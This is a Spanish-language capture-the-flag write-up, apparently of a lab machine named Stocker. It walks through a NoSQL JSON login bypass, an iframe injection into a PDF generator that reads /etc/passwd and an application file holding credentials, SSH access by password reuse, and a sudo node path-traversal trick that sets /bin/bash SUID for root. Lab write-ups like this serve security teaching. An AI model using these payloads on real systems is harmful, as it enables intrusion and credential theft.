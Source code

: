 # Summary
- IP: 10.129.135.230
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
	-  80 -> nginx 1.18.0

# Recon
- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` 
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
``` 

- Análisis de directorios web con gobuster:

```
#gobuster dir -u stocker.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200
```

- No encontramos nada relevante, así que buscando si hay subdominios por detrás:

```
#gobuster vhost -u stocker.htb -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 200
```

- Encontramos el subdomino "dev.stocker.htb" accedemos y vemo un panel de login; intentamos bypassear con SQLi pero no funciona, así que intentamos con payloads NoSQL; como ninguna se ejecuta, probamos inyectar código json con ayuda de burpsuite en el repeater, primero ejecutando el siguiente payload:

#### Autenticación Bypass con Json: (Content-Type: application/json)

```
#in JSON

{"username": {"$ne": null}, "password": {"$ne": null} }

```

- Nos redirecciona a "/stocks", en donde podemos elegir productos al carrito y recibir un comprobando de los productos comprados en forma de PDF, este procesamiento de texto al PDF nos redirecciona a "/api/códigodecompra" lo que nos hace sospechar de algún api del cual podríamos aprovechar para inyectar comandos y tener un LFI; buscamos en HackTricks ataque "XSS (Dynamic PDF)" y encontramos lo siguiente:

```
To read local file:

<iframe src=file:///etc/passwd width=800px height=1000px ></iframe>
```

- Interceptamos con burpsuite a la hora de emitir el comprobando del carrito de compra para verificar los campos que procesan el pdf e inyectamos el anterior comando en el título de alguno de los productos:

```
"title":"<iframe src=file:///etc/passwd width=800px height=1000px ></iframe>",
```

- Vemos el archivo /etc/passwd, confirmando así  el LFI y enumerando los usuarios existentes en el servidor; ahora como sabemos que el subdominio es "dev" podemos imaginar que existirá un directorio "/var/www/dev/index.js" el cual comúnmente contiene información relevante como la de la base de datos que opera por detrás, así que de la misma forma examinamos este archivo:

```
"title":"<iframe src=file:///var/www/dev/index.js width=800px height=1000px ></iframe>",
```

- Comprobamos que existe el archivo "index.js" y vemos que hay una credencial que parece corresponder a la base de datos MongoDB; probamos esta credencial para acceder por SSH como el usuario "angoose" por si existe reutilización de contraseñas:

```
#ssh angoose@10.129.135.230
```

- Entramos y vemos la primera flag.

# Escalando privilegios:


- Comprobamos privilegios como sudoers y vemos que podemos ejecutar el siguiente binario:

```
/usr/bin/node /usr/local/scripts/*.js
```

- Es decir, podemos ejecutar el binario "node" como root, para ejecutar cualquier archivo .js ubicado en el directorio "/usr/local/scripts/", sabiendo esto, podríamos crear un script .js que modifique los permisos de la bash a SUID para posteriormente ejecutarlo con privilegios de root:

nano pwned

```
require('child_process').exec('chmod u+s /bin/bash')
```

```
sudo node /usr/local/scripts/../../../home/angoose/pwned.js
```

- Comprobamos que somos root y obtenemos la última flag.